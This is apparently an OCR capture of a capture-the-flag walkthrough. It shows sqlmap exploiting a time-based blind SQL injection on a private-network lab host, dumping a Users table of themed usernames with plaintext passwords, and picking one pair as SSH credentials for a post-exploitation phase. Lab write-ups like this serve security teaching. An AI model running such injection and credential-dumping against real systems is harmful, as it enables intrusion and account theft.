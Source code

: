 [00:02:20] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                   
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[00:02:30] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
5
[00:02:36] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)          
[00:02:43] [INFO] adjusting time delay to 1 second due to good response times
AndMyAxe
[00:03:15] [INFO] retrieved: gimli
[00:03:33] [INFO] retrieved: AndMyBow
[00:04:09] [INFO] retrieved: legolas
[00:04:34] [INFO] retrieved: AndMySword
[00:05:17] [INFO] retrieved: aragorn
[00:05:41] [INFO] retrieved: iwilltakethering
[00:06:36] [INFO] retrieved: frodo
[00:06:56] [INFO] retrieved: MyPreciousR00t
[00:07:49] [INFO] retrieved: smeagol
Database: Webapp
Table: Users
[5 entries]
+----------+------------------+
| username | password         |
+----------+------------------+
| gimli    | AndMyAxe         |
| legolas  | AndMyBow         |
| aragorn  | AndMySword       |
| frodo    | iwilltakethering |
| smeagol  | MyPreciousR00t   |
+----------+------------------+

[00:08:13] [INFO] table 'Webapp.Users' dumped to CSV file '/home/cdark/.local/share/sqlmap/output/192.168.0.105/dump/Webapp/Users.csv'
[00:08:13] [INFO] fetched data logged to text files under '/home/cdark/.local/share/sqlmap/output/192.168.0.105'

[*] ending @ 00:08:13 /2022-02-04/

>> # ssh creads:
# username : smeagol
# password : MyPreciousR00t


# ->PostExploitation Phase:
